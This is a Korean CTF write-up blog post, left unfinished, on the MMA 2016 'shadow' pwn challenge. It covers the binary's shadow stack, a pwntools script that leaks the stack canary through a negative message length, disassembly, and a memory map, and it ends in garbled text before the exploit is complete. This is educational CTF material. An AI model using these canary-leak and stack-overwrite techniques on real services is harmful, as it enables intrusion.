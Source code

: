 ```yaml
---
layout: post
title: "[2016 mma] shadow 풀이"
date: 2018-06-20 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```

>### Host : pwn2.chal.ctf.westerns.tokyo
### Port : 18294
### [shadow](https://github.com/ctfs/write-ups-2016/blob/master/mma-ctf-2nd-2016/pwn/shadow-400/shadow)

1. **스택 카나리**문제를 풀어보고 싶다.

2. **쉐도우 스택**도 구경해보고 싶다.

이런 이유로 이 문제를 골랐습니다!

~~다 작성했는데 sublimetext git이 이상해서 날라감아 안ㅁ아ㅡㄴ마음나으만으~~

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/2016_mma/shadow/01.png)
{: refdef}

많네요. 으어어

{: refdef: style="text-align: center;"}
![main](/img/2016_mma/shadow/02.png)
{: refdef}

`main`이 신기하게 생겼네요.

`call`함수를 사용해 `_main`함수를 호출합니다.

{: refdef: style="text-align: center;"}
![call](/img/2016_mma/shadow/03.png)
{: refdef}

함수를 신기하게 부르네요. `push`도 볼 수 있는데 일단 넘어가 봅시다.

{: refdef: style="text-align: center;"}
![\_main](/img/2016_mma/shadow/04.png)
{: refdef}

보시다시피 함수의 인자가 안보입니다. 어셈코드로 보고 어디다가 적어둡시다.

{: refdef: style="text-align: center;"}
![message](/img/2016_mma/shadow/05.png)
{: refdef}

임마가 중요한 함수인데 주석에 적어놨듯이 `Message length`에서 취약점이 발생합니다.

그리고 `getnline`함수에서는 `read`함수를 사용해 입력받습니다.

- - -
# 0x01. 취약점 증명

```asm
  unsigned int v3; // eax
  int i; // [esp+24h] [ebp-34h]
  char v6[32]; // [esp+2Ch] [ebp-2Ch]
  unsigned int canary; // [esp+4Ch] [ebp-Ch]
  int savedregs; // [esp+58h] [ebp+0h]
```

우선 `v6`부터 값이 들어가니까 32개 꽉 채우면 `canary`를 가져올 수 있지 않을까 했어요.

{: refdef: style="text-align: center;"}
![no_canary](/img/2016_mma/shadow/06.png)
{: refdef}

### NOPE

읭 `gdb`로 열어서 왜 안보여주는지 알아봅시다.

{: refdef: style="text-align: center;"}
![null_canary](/img/2016_mma/shadow/07.png)
{: refdef}

원래 그런지는 모르겠는데 이 문제에선 `canary` 제일 앞에 `\x00`이 있더라구요.

```python
from pwn import *
context.log_level = "debug"

HOST = "localhost"
PORT = 4444
s = remote(HOST, PORT)
pause()

############################################

def send(name, length, message):
    s.recv()
    s.send(name)
    s.recv()
    s.sendline(length)
    s.recv()
    s.send(message)

payload = "A"*33

send("n", "-1", payload)
s.recvuntil("payload)
canary = u32("\x00" + s.recv(3))

print "[*] canary : " + hex(canary)
```

{: refdef: style="text-align: center;"}
![yes_canary](/img/2016_mma/shadow/08.png)
{: refdef}

`canary`값을 알아냈어요. 그럼 `ret`까지 쭉 덮으면 풀리겠네요!

{: refdef: style="text-align: center;"}
![before_ret](/img/2016_mma/shadow/09.png)
{: refdef}

헤헤 보시면 `EBP`에 `CCCCDDDD`가 있는걸 볼 수 있어요.

{: refdef: style="text-align: center;"}
![after_ret](/img/2016_mma/shadow/10.png)
{: refdef}

띠용! `call 0x8048cee`가 실행되니까 `EBP`가 정상적으로 바뀌네요.

{: refdef: style="text-align: center;"}
![0x8048cee](/img/2016_mma/shadow/11.png)
{: refdef}

해당 주소로 가보니 `ret`이라는 함수가 문제네요.

`restore_eip`는 `.bss`정도로 예상하고 눌렀는데...

```asm
.asm:08048D08 restore_eip     db  83h                 ; DATA XREF: ret+11↑o
.asm:08048D09                 db 0ECh
.asm:08048D0A                 db    4
.asm:08048D0B                 db 0E8h
```

`asm`...? 왜 리턴주소가 코드영역에 있죠?

했는데 알고보니 `IDA`가 어셈코드로 안보여준 거였네요. 헿

```asm
   0x8048d08: sub    esp,0x4
   0x8048d0b: call   0x8048b71 <pop>
   0x8048d10: mov    DWORD PTR [esp],eax
   0x8048d13: mov    eax,ds:0x804a008
   0x8048d18: jmp    DWORD PTR [esp]
   0x8048d1b: sub    esp,0x8
   0x8048d1e: mov    ebp,esp
   0x8048d20: push   eax
   0x8048d21: call   0x8048cee
   0x8048d26: leave  
   0x8048d27: ret 
```

- - -
# 0x02. 공격 방법

우선 `message`함수의 스택 구조를 따져보면

**[buf][sfp][ret][name_pointer][name_length][max_count]**

이렇게 생긴걸 알 수 있어요.

여기서 쓸만한건 **[sfp]**밖에 없어요.

왜냐하면 일단 **[buf]**는 `canary`밖에 못알아내고

**[ret]**은 `0x08`뭐시기 하는 주소가 나오겠죠.

**[name_pointer][name_length][max_count]**는 값을 알아내기보단 값을 조작하는게 어울려 보여요.

**[sfp]**에는 이번 함수의 버퍼 시작 위치가 담겨있어요.

이제 이걸로 뭘 할것이냐? 몰라요.

이제부터 천천히 찾아봐야해요.

~~그러고 일주일이 지났습니다.~~

```bash
08048000-08049000 r-xp 00000000 08:01 264539                             /home/rotles98/pwn/2016_mma/shadow/shadow
08049000-0804a000 r--p 00001000 08:01 264539                             /home/rotles98/pwn/2016_mma/shadow/shadow
0804a000-0804b000 rw-p 00002000 08:01 264539                             /home/rotles98/pwn/2016_mma/shadow/shadow
f7cfb000-f7ed0000 r-xp 00000000 08:01 417695                             /lib/i386-linux-gnu/libc-2.27.so
f7ed0000-f7ed1000 ---p 001d5000 08:01 417695                             /lib/i386-linux-gnu/libc-2.27.so
f7ed1000-f7ed3000 r--p 001d5000 08:01 417695                             /lib/i386-linux-gnu/libc-2.27.so
f7ed3000-f7ed4000 rw-p 001d7000 08:01 417695                             /lib/i386-linux-gnu/libc-2.27.so
f7ed4000-f7ed7000 rw-p 00000000 00:00 0 
f7eed000-f7eee000 ---p 00000000 00:00 0 
f7eee000-f7ef0000 rw-p 00000000 00:00 0 
f7ef0000-f7ef3000 r--p 00000000 00:00 0                                  [vvar]
f7ef3000-f7ef5000 r-xp 00000000 00:00 0                                  [vdso]
f7ef5000-f7f1b000 r-xp 00000000 08:01 417687                             /lib/i386-linux-gnu/ld-2.27.so
f7f1b000-f7f1c000 r--p 00025000 08:01 417687                             /lib/i386-linux-gnu/ld-2.27.so
f7f1c000-f7f1d000 rw-p 00026000 08:01 417687                             /lib/i386-linux-gnu/ld-2.27.so
ffa10000-ffa31000 rw-p 00000000 00:00 0                                  [stack]
```

`maps`를 출력한 모습인데 보면 **f7cfb000-f7ed0000** 여기가 함수들의 위치입니다!

만약 **[sfp]**를 사용해서 해당 범위를 사용하는 부분을 찾아낸다면!

그 부분의 값을 쉘코드나 그런걸로 수정하면 문제가 풀릴거에요!

졸리니까 내일 작성하머ㅏㅟㅂㅈ덥지ㅏㅟㄴ이ㅜㄴㄹㅇ나ㅣㅜㅏㄴㅇ